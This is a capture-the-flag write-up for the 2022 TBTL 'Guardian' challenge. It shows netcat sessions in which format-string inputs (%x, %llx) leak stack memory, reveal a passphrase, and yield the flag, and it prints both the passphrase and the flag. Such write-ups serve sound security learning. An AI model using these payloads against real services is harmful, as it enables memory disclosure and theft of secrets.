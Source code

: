 # 2022 TBTL - Guardian

Guardian was a pwn challenge where no attachments were provided (no code, no binary). The server application was pretty simple asking us for a password in order to give us the flag:
```
$ nc 0.cloud.chals.io 18978
                      ,-,-      
                     / / |      
   ,-'             _/ / /       
  (-_          _,-' `Z_/        
   "#:      ,-'_,-.    \  _     
    #'    _(_-'_()\     \" |    
  ,--_,--'                 |    
 /                       L-'\ 
 \,--^---v--v-._        / \ | 
   \_________________,-'    | 
                    \           
                     \         
                                


I am the guardian of the ancient flag...
Tell me the secret passphrase or die: p@ssw0rd


p@ssw0rd is not the correct passphrase, prepare to die!
```

Since there is no binary to analyze and no implementation information known, the only thing that we could try out is a format string vulnerability. The fact that our input is reflected back, there is a pretty good change that `%x` would work, so we try it out:
```
$ nc 0.cloud.chals.io 18978
                      ,-,-      
                     / / |      
   ,-'             _/ / /       
  (-_          _,-' `Z_/        
   "#:      ,-'_,-.    \  _     
    #'    _(_-'_()\     \" |    
  ,--_,--'                 |    
 /                       L-'\ 
 \,--^---v--v-._        / \ | 
   \_________________,-'    | 
                    \           
                     \         
                                


I am the guardian of the ancient flag...
Tell me the secret passphrase or die: %x.%x.%x.%x


f48326a3.f4833780.f45643c0.f4a5a700 is not the correct passphrase, prepare to die!
```

String format vulnerability is confirmed. Since this is most probably an x64 binary, we can have another go at it with `%llx` which would reveal more contiguous memory. The solution code in `solve_2022_tbtl_guardian.py` performs the memory leak and gives us the password:
```
$ python3 c.py
[+] Opening connection to 0.cloud.chals.io on port 18978: Done
b'\n\n7fd3688296a3':b'\x80\xa7\x82h\xd3\x7f':b'\xc0\xb3Uh\xd3\x7f':b'\x00\x17\xa5h\xd3\x7f':b'\x00\x17\xa5h\xd3\x7f':b'1':b'PM \x84\xfd\x7f':b'C0rr3c7_':b'H0r53_B4':b'7t3ry_5t':b'4p1e\x00V':b'.M \x84\xfd\x7f':b'0':b'\xf0\x0b\x84d1V':b' \t\x84d1V':b'\x10N \x84\xfd\x7f':b'\x00\x98\x12b\xe5\x1a\x1e\xf0':b'\xf0\x0b\x84d1V':b'@HHh\xd3\x7f':b'0':b'\x18N \x84\xfd\x7f':b'168a53ca0':b'\x90\n\x84d1V':b'0':b'\xd4\x11\x98?fa\x81\xed':b' \t\x84d1V':b'\x10N \x84\xfd\x7f':b'0':b'0':b'\xd4\x11\xf8\xb2.\xa0\x18\xbe':b'\xd4\x11\x88\xa7\xfexE\xbe':b'0':b'0':b'0':b'(N \x84\xfd\x7f':b'hQ\xa5h\xd3\x7f':b' is not the correct passphrase, prepare to die!':[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 18978
```

If you look closely at the output:
```
b'C0rr3c7_':b'H0r53_B4':b'7t3ry_5t':b'4p1e\x00V'
C0rr3c7_H0r53_B47t3ry_5t4p1e
```

And that is all that we need to get the flag:
```
$ nc 0.cloud.chals.io 18978
                      ,-,-      
                     / / |      
   ,-'             _/ / /       
  (-_          _,-' `Z_/        
   "#:      ,-'_,-.    \  _     
    #'    _(_-'_()\     \" |    
  ,--_,--'                 |    
 /                       L-'\ 
 \,--^---v--v-._        / \ | 
   \_________________,-'    | 
                    \           
                     \         
                                


I am the guardian of the ancient flag...
Tell me the secret passphrase or die: C0rr3c7_H0r53_B47t3ry_5t4p1e


That is correct!
Here is your flag: TBTL{F0rm47_57r1ng5_C4n_B3_D4ng3r0u5}
```
